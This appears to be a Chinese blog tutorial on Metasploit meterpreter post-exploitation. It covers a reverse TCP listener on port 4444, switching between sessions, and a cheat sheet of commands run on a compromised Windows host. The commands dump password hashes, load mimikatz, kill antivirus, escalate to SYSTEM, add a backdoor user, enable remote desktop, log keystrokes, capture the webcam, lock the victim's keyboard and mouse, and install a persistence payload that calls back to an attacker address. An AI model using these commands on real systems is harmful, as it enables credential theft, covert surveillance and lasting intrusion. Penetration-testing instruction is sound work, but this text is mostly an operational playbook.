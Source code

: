 
运行了exploit命令之后，我们开启了一个reverse TCP监听器来监听本地的 4444 端口，即我（攻击者）的本地主机地址（LHOST）和端口号（LPORT）。运行成功之后，我们将会看到命令提示符 meterpreter > 出现，我们输入： shell  即可切换到目标主机的windows shell，要想从目标主机shell退出到 meterpreter ，我们只需输入：exit



![](https://img-blog.csdn.net/20181024193816868?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



我们要想从 meterpreter 退出到MSF框架，输入：background



![](https://img-blog.csdn.net/20181024194025537?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



输入： sessions  -l       查看我们获得的shell，前面有id



输入： sessions  -i  1     即可切换到id为1的shell



![](https://img-blog.csdn.net/20181024194109171?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



输入：shell           即可进入 cmd 类型的控制，再输入：powershell    ，即可进入 powershell 类型的控制台



![](https://img-blog.csdnimg.cn/20200120143311530.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



```
sysinfo             #查看目标主机系统信息      
run scraper         #查看目标主机详细信息      
run hashdump        #导出密码的哈希      
load kiwi           #加载mimikatz      
ps                  #查看目标主机进程信息      
pwd                 #查看目标当前目录(windows)      
getlwd              #查看目标当前目录(Linux)      
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件      
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下      1
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下      1
getpid              #查看当前Meterpreter Shell的进程PID      1
migrate 1384        #将当前Meterpreter Shell的进程迁移到PID为1384的进程上      1
idletime            #查看主机运行时间      1
getuid              #查看获取的当前权限      1
getsystem           #提权,获得的当前用户是administrator才能成功      1
run  killav         #关闭杀毒软件      1
screenshot          #截图      1
webcam_list         #查看目标主机的摄像头      1
webcam_snap         #拍照      2
webcam_stream       #开视频      2
execute  参数  -f 可执行文件   #执行可执行程序      2
run getgui -u hack -p 123    #创建hack用户，密码为123      2
run getgui -e                #开启远程桌面      2
keyscan_start                #开启键盘记录功能      2
keyscan_dump                 #显示捕捉到的键盘记录信息      2
keyscan_stop                 #停止键盘记录功能      2
uictl  disable  keyboard     #禁止目标使用键盘      2
uictl  enable   keyboard     #允许目标使用键盘      2
uictl  disable  mouse        #禁止目标使用鼠标      3
uictl  enable   mouse        #允许目标使用鼠标      3
load                         #使用扩展库      3
run				             #使用扩展库       3
run persistence -X -i 5 -p 8888 -r 192.168.10.27        #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀      3
```